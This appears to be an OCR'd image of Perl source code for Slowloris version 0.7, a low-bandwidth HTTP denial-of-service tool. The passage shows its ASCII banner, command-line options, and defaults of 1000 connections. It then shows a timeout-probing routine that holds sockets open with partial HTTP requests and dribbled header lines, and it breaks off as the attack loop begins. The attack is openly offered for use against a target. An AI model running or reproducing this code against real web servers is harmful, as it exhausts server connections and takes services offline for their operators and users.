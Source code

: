 :. .:..ccoCCCooCooccooccccoooooCCCC coooCCO8\@88OO8O888Oo:::... ..  :cO8Oc. . .....  :.  .:ccCoooooccoooocccccooooCCC :ccooooCO888OOOO8OOc..:...::. .co8\@8Coc::..  ....  ..:cooCooooccccc::::ccooCCooC .:::coocccoO8OOOOOOC:..::....coCO8\@8OOCCOc:...  ....:ccoooocccc:::::::::cooooooC ....::::ccccoCCOOOOOCc......:oCO8\@8\@88OCCCoccccc::c::.:oCcc:::cccc:..::::coooooo .......::::::::cCCCCCCoocc:cO888\@8888OOOOCOOOCoocc::.:cocc::cc:::...:::coocccccc ...........:::..:coCCCCCCCO88OOOO8OOOCCooCCCooccc::::ccc::::::.......:ccocccc:co .............::....:oCCoooooCOOCCOCCCoccococc:::::coc::::....... ...:::cccc:cooo  ..... ............. .coocoooCCoco:::ccccccc:::ccc::..........  ....:::cc::::coC    .  . ...    .... ..  .:cccoCooc:..  ::cccc:::c:.. ......... ......::::c:cccco   .  .. ... ..    .. ..   ..:...:cooc::cccccc:.....  .........  .....:::::ccoocc        .   .         .. ..::cccc:.::ccoocc:. ........... ..  . ..:::.:::::::ccco  Welcome to Slowloris - the low bandwidth, yet greedy and poisonous HTTP client EOTEXT  my ( $host, $port, $sendhost, $shost, $test, $version, $timeout, $connections ); my ( $cache, $httpready, $method, $ssl, $rand, $tcpto ); my $result = GetOptions(     'shost=s'   => \$shost,     'dns=s'     => \$host,     'httpready' => \$httpready,     'num=i'     => \$connections,     'cache'     => \$cache,     'port=i'    => \$port,     'https'     => \$ssl,     'tcpto=i'   => \$tcpto,     'test'      => \$test,     'timeout=i' => \$timeout,     'version'   => \$version, );  if ($version) {     print "Version 0.7\n";     exit; }  unless ($host) {     print "Usage:\n\n\tperl $0 -dns [www.example.com] -options\n";     print "\n\tType 'perldoc $0' for help with options.\n\n";     exit; }  unless ($port) {     $port = 80;     print "Defaulting to port 80.\n"; }  unless ($tcpto) {     $tcpto = 5;     print "Defaulting to a 5 second tcp connection timeout.\n"; }  unless ($test) {     unless ($timeout) {         $timeout = 100;         print "Defaulting to a 100 second re-try timeout.\n";     }     unless ($connections) {         $connections = 1000;         print "Defaulting to 1000 connections.\n";     } }  my $usemultithreading = 0; if ( $Config{usethreads} ) {     print "Multithreading enabled.\n";     $usemultithreading = 1;     use threads;     use threads::shared; } else {     print "No multithreading capabilites found!\n";     print "Slowloris will be slower than normal as a result.\n"; }  my $packetcount : shared     = 0; my $failed : shared          = 0; my $connectioncount : shared = 0;  srand() if ($cache);  if ($shost) {     $sendhost = $shost; } else {     $sendhost = $host; } if ($httpready) {     $method = "POST"; } else {     $method = "GET"; }  if ($test) {     my @times = ( "2", "30", "90", "240", "500" );     my $totaltime = 0;     foreach (@times) {         $totaltime = $totaltime + $_;     }     $totaltime = $totaltime / 60;     print "This test could take up to $totaltime minutes.\n";      my $delay   = 0;     my $working = 0;     my $sock;      if ($ssl) {         if (             $sock = new IO::Socket::SSL(                 PeerAddr => "$host",                 PeerPort => "$port",                 Timeout  => "$tcpto",                 Proto    => "tcp",             )           )         {             $working = 1;         }     }     else {         if (             $sock = new IO::Socket::INET(                 PeerAddr => "$host",                 PeerPort => "$port",                 Timeout  => "$tcpto",                 Proto    => "tcp",             )           )         {             $working = 1;         }     }     if ($working) {         if ($cache) {             $rand = "?" . int( rand(99999999999999) );         }         else {             $rand = "";         }         my $primarypayload =             "GET /$rand HTTP/1.1\r\n"           . "Host: $sendhost\r\n"           . "User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.503l3; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; MSOffice 12)\r\n"           . "Content-Length: 42\r\n";         if ( print $sock $primarypayload ) {             print "Connection successful, now comes the waiting game...\n";         }         else {             print "That's odd - I connected but couldn't send the data to $host:$port.\n";             print "Is something wrong?\nDying.\n";             exit;         }     }     else {         print "Uhm... I can't connect to $host:$port.\n";         print "Is something wrong?\nDying.\n";         exit;     }     for ( my $i = 0 ; $i &lt;= $#times ; $i++ ) {         print "Trying a $times[$i] second delay: \n";         sleep( $times[$i] );         if ( print $sock "X-a: b\r\n" ) {             print "\tWorked.\n";             $delay = $times[$i];         }         else {             if ( $SIG{__WARN__} ) {                 $delay = $times[ $i - 1 ];                 last;             }             print "\tFailed after $times[$i] seconds.\n";         }     }      if ( print $sock "Connection: Close\r\n\r\n" ) {         print "Okay that's enough time. Slowloris closed the socket.\n";         print "Use $delay seconds for -timeout.\n";         exit;     }     else {         print "Remote server closed socket.\n";         print "Use $delay seconds for -timeout.\n";         exit;     }     if ( $delay &lt; 166 ) {         print &lt;&lt;EOSUCKS2BU; Since the timeout ended up being so small ($delay seconds) and it generally  takes between 200-500 threads for most servers and assuming any latency at  all...  you might have trouble using Slowloris against this target.  You can  tweak the -timeout flag down to less than 10 seconds but it still may not  build the sockets in time. EOSUCKS2BU     } } else {     print "Connecting to $host:$port every $timeout seconds with $connections sockets:\n";      if ($usemultithreading) {         domultithreading($connections);     }     else {